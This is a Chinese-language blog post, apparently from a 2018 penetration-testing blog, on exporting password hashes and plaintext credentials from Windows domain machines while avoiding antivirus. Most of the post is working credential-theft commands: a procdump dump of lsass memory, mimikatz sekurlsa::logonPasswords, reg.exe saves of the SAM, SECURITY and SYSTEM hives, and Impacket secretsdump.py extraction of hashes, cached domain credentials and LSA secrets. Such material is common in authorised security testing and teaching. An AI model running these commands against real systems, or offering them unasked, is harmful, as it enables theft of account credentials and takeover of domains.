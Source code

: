 ```yaml
---
layout: post
title: 导出域内用户hash或密码记录
date: 2018-12-13 23:30:00
tags: 域渗透
categories: hack 
author: PythonPig
---
```

* content
{:toc}


### \#0x00 写在前面 
域渗透过程简单来说：搞定域内某机器—获取域管登录凭证—登录域控导出所有用户hash—完毕
在目标机器上使用mimikatz导出用户密码时经常遇到杀软，本文主要收集各种绕过杀软的小技巧。  

![](https://github.com/PythonPig/PythonPig.github.io/blob/master/images/%E5%AF%BC%E5%87%BA%E5%9F%9F%E5%86%85%E7%94%A8%E6%88%B7hash%E6%88%96%E5%AF%86%E7%A0%81%E8%AE%B0%E5%BD%95/hash_hack.jpg?raw=true) 图片来源于https://www.blackhillsinfosec.com/got-privs-crack-those-hashes/

本文中的方法主要有：  
1、方法一：从内存中dump lsass进程的数据，本地mimikatz读取明文密码（procdump.exe+mimikatz）  
2、方法二：从注册表中读取用户hash（Impacket或Cain）  





### \#0x01 从内存中dump lsass进程的数据后本地读取密码
##### 1、导出lsass进程的内存数据
导出lsass进程的内存数据使用的是微软官方的工具[procdump.exe](https://docs.microsoft.com/en-us/sysinternals/downloads/procdump)，肯定可以免杀。  
在目标机器上执行：  
```
procdump64.exe -accepteula -ma lsass.exe lsass.dmp
```
将在本目录下生成lsass.dmp    
##### 2、本地读取lsass.dmp中的密码  
将lsass.dmp下载会本地后使用mimikatz读取密码，注意，本地运行mimikatz的机器版本要于目标机器版本兼容，其对应关系如下：  
[]()

在本地机器上通过mimikatz执行如下命令(注意mimikatz.exe与lsass.dmp同目录)：  
```
sekurlsa::minidump lsass.dmp
sekurlsa::logonPasswords full
```

由于lsass.dmp一般比较大，可能几十甚至上百兆，下载回本地比较困难，若域内有版本满足上图要求且已控并可以运行mimikatz的机器的话，可以在已控的机器上运行如下命令，毕竟域内机器之间传输lsass.dmp要快且方便的多。  
```
mimikatz.exe "privilege::debug" "sekurlsa::minidump lsass.dmp" "sekurlsa::logonPasswords full" "exit" >> C:\PerfLogs\log.txt
```

### \#0x02 从注册表中读取用户hash（Impacket或Cain）
##### 1、复制注册表项
需要复制的注册表项有：  
```
HKEY_LOCAL_MACHINE\SAM
HKEY_LOCAL_MACHINE\SECURITY
HKEY_LOCAL_MACHINE\SYSTEM
```
执行如下命令：  
```
C:\> reg.exe save hklm\sam c:\sam.save
C:\> reg.exe save hklm\security c:\security.save
C:\> reg.exe save hklm\system c:\system.save
```
解释下这三个注册表项：  
The SAM subkey refers to information about Security Accounts Manager (SAM) databases for domains. Within each database are group aliases, users, guest accounts, and administrator accounts, plus the name used to log in to the domain, cryptographic hashes of each user's password, and more.

The SECURITY subkey is used to store the security policy of the current user. It's linked to the security database of the domain where the user is logged in, or to the registry hive on the local computer if the user is logged in to the local system domain.

To see the contents of the SAM or SECURITY key, the Registry Editor must instead be opened using the System Account, which has greater permissions than any other user, even a user with administrator privileges.

HKEY_LOCAL_MACHINE\SYSTEM用来解密HKEY_LOCAL_MACHINE\SAM和HKEY_LOCAL_MACHINE\SECURITY，其中HKEY_LOCAL_MACHINE\SAM主要包含本地用户hash和用户的一些属性信息，HKEY_LOCAL_MACHINE\SECURITY主要包含缓存的域用户凭证和LSA Secrets。
##### 2、提取注册表项中的用户hash
提取注册表项中的用户hash有多中工具，常用的有Impacket的secretsdump.py和Cain，Cain的使用见[MSSQL弱口令的几种利用方法](https://pythonpig.github.io/2018/10/25/MSSQL%E5%BC%B1%E5%8F%A3%E4%BB%A4%E7%9A%84%E5%87%A0%E7%A7%8D%E5%88%A9%E7%94%A8%E6%96%B9%E6%B3%95/);这里以secretsdump.py为例进行说明。  
执行以下命令  

获取sam中的用户hash及security中缓存的域用户凭证和LSA Secrets  
```
secretsdump.py  -sam sam.save -security security.save -system system.save LOCAL
```
执行结果如下所示  
[](https://github.com/PythonPig/PythonPig.github.io/blob/master/images/%E5%AF%BC%E5%87%BA%E5%9F%9F%E5%86%85%E7%94%A8%E6%88%B7hash%E6%88%96%E5%AF%86%E7%A0%81%E8%AE%B0%E5%BD%95/reg_hash%20copy.png?raw=true)

也可以单独获取hash或域用户凭证  
获取sam中的用户hash  
```
secretsdump.py  -sam sam.save -system system.save LOCAL
```
获取security中缓存的域用户凭证和LSA Secrets  
```
secretsdump.py  -security security.save -system system.save LOCAL
```
 

## 未完待续……

### \#0x03 参考
* [Dumping Windows Credentials](https://www.securusglobal.com/community/2013/12/20/dumping-windows-credentials/)
* [HKEY_LOCAL_MACHINE (HKLM Registry Hive)](https://www.lifewire.com/hkey-local-machine-2625902)  


